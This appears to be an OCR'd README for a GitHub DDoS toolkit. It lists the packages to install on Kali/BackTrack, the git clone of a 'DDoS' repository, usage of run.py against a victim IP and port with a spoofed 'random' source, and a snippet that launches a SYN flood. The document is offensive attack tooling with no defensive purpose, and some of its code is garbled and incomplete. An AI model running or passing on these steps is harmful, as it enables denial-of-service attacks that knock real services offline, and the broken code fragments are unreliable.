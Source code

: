 Jayesh Patel
Toronto ON 
647-271-9971


prerequisites :
===============

Step 1 : Install Ubuntu / Kali / BackTrack Linux :

apt-get install nikto
apt-get install sushi
apt-get install ssh
apt-get install tcpdump graphviz imagemagick python-gnuplot
sudo apt-get install slowhttptest
apt-get install subversion
apt-get install aclocal
apt-get install automaker
pip install scapy 
pip install iptools
pip install ipaddress
pip install ipaddr
pip install pinject

#Git clone …… "https://github.com/umasolution/DDoS.git"

root@bt:~/dos# python run.py -h
usage: run.py [-h] c_num victim_ip victim_port source_ip source_port
Pass Arguments
positional arguments:
c_num        Enter Number of request
victim_ip    Enter Victim IP
victim_port  Enter Victim Port
source_ip    Enter Source IP
source_port  Enter Source Port        

#python run.py 10 192.168.10.1 100 random 80

#ls
run.py (main file)
scapy_dos.py (scapy file where we mentioned all attack)
slowhttptest (Tools for DoS)
tool_dos.py (Tools feel where we mentioned all tools based attack)




Find the following code for perform syn attack 

from scapy_dos import Dos_Attack
from tool_dos import Dos_Tools 

res = Dos_Attack(sip, dip)
we need run run SYN Attack, call function SYN_ATT from scapy_dos.py file with two argument
def SYN_ATT(self, sport, dport):
res.SYN_ATT(sport, dport)       


